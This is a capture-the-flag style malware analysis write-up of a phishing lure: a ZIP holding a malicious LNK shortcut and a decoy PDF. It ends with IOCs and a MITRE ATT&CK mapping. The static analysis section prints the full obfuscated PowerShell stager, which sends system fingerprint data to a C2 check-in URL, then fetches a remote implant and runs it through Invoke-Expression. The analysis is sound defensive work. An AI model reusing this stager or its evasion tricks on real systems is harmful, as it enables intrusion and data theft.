





### <span style="color:lightblue">TL;DR</span>
A phishing email impersonating an EU Health Logistics Office delivered a
password-protected ZIP containing a malicious LNK file and a decoy PDF.
The LNK executed an obfuscated PowerShell stager that opened the PDF as
a distraction, collected system fingerprint data, checked in to
`health-status-rs.com`, and fetched a next-stage implant from
`advent-of-the-relics-forum.htb.blue` using hardcoded credentials
`svc_temp:SnowBlackOut_2026!`.

### <span style="color:red">Initial Analysis</span>
At `Fri, 14 Nov 2025 20:33:15` a phishing email was sent from
`eu-health@ca1e-corp.org` — spoofing a legitimate-looking EU Health
Logistics Office address to target `kamil.poltavez@cale-corp.org`:
```
From: EU Health Logistics Office <eu-health@ca1e-corp.org>
To:   kamil.poltavez@cale-corp.org
```

The email contained an attached ZIP file:
```
Health_Clearance-December_Archive.zip
```



The email body contained two base64-encoded blobs — the first decoded to
the email body text, the second to the ZIP archive itself. Decoding both
revealed the archive password: `Up7Pk99G`.



Unpacking the archive with the password yielded two files:
```
EU_Health_Compliance_Portal.lnk
Health_Clearance_Guidelines.pdf
```

### <span style="color:red">Static Analysis</span>

#### <span style="color:red">Shortcut</span>


The shortcut contained an obfuscated PowerShell one-liner. First, it opened
the decoy PDF via `saps .\Health_Clearance_Guidelines.pdf` to distract the
victim while the payload executed in the background.

The script then collected a system fingerprint — `$env:USERNAME`,
`$env:USERDOMAIN`, and `MachineGuid` from
`HKLM:\SOFTWARE\Microsoft\Cryptography` — and POSTed it to
`https://health-status-rs.com/api/v1/checkin`, receiving a session ID
in response. Using the returned session ID, it fetched the next-stage implant from
`https://advent-of-the-relics-forum.htb.blue/api/v1/implant/cid=<id>`
and piped the response directly into `Invoke-Expression` for execution.
```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nONi -nOp -eXeC bYPaSs -cOmManD "
$Bs = (-join('Basic c3','ZjX3Rlb','XA6U2','5','vd0JsY','WNrT','3V','0X','zIwM','jYh'));sap`s .\Health_Clearance_Guidelines.pdf;
$AX=$env:USERNAME;$oM=[System.Uri]::UnescapeDataString('https%3A%2F%2Fhealth%2Dstatus%2Drs%2Ecom%2Fapi%2Fv1%2Fcheckin');
$Bz=$env:USERDOMAIN;$Lj=[System.Uri]::UnescapeDataString('https%3A%2F%2Fadvent%2Dof%2Dthe%2Drelics%2Dforum%2Ehtb%2Eblue%2Fapi%2Fv1%2Fimplant%2Fcid%3D');
$Mw=(gp HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid;
$pP = @{u=$AX;d=$Bz;g=$Mw};
$Zu=(i`wr $oM -Method POST -Body $pP).Content;$Hd = @{Authorization = $Bs };i`wr -Headers $Hd $Lj$Zu | i`ex;"
```

The authorization header was assembled from split string fragments
to evade static detection. Decoded, it contained hardcoded credentials:
```
Basic c3ZjX3RlbXA6U25vd0JsYWNrT3V0XzIwMjYh
       -> svc_temp:SnowBlackOut_2026!
```

#### <span style="color:red">PDF</span>
The PDF was confirmed legitimate with no malicious content — no JavaScript,
no embedded files, no launch actions, no OpenAction triggers:
```
PDFiD 0.2.8 Health_Clearance_Guidelines.pdf
 PDF Header: %PDF-1.4
 obj                  314
 endobj               314
 stream                14
 endstream             14
 /Page                  3
 /Encrypt               0
 /JS                    0
 /JavaScript            0
 /OpenAction            0
 /Launch                0
 /EmbeddedFile          0
```


Its sole purpose was to serve as a convincing decoy while the LNK payload
executed in the background.

### <span style="color:lightblue">IOCs</span>

**Files**  
\- `Health_Clearance-December_Archive.zip` — password: `Up7Pk99G`  
\- `EU_Health_Compliance_Portal.lnk` — malicious shortcut  
\- `Health_Clearance_Guidelines.pdf` — benign decoy  

**Network**  
\- C2 check-in: `https://health-status-rs.com/api/v1/checkin`  
\- Implant delivery: `https://advent-of-the-relics-forum.htb.blue/api/v1/implant/cid=`  
\- Sender domain: `ca1e-corp.org` (typosquat of `cale-corp.org`)  

**Credentials**  
\- `svc_temp:SnowBlackOut_2026!` — hardcoded Basic auth  

### <span style="color:lightblue">MITRE ATT&CK</span>

| Technique | ID | Description |
|-----------|-----|-------------|
| Phishing: Spearphishing Attachment | T1566.001 | ZIP with LNK delivered via email |
| User Execution: Malicious File | T1204.002 | victim opens LNK |
| Command and Scripting: PowerShell | T1059.001 | obfuscated PS stager |
| Masquerading | T1036 | LNK disguised as portal document |
| System Information Discovery | T1082 | USERNAME, USERDOMAIN, MachineGuid |
| Application Layer Protocol: HTTPS | T1071.001 | C2 over HTTPS |
| Ingress Tool Transfer | T1105 | implant fetched from C2 |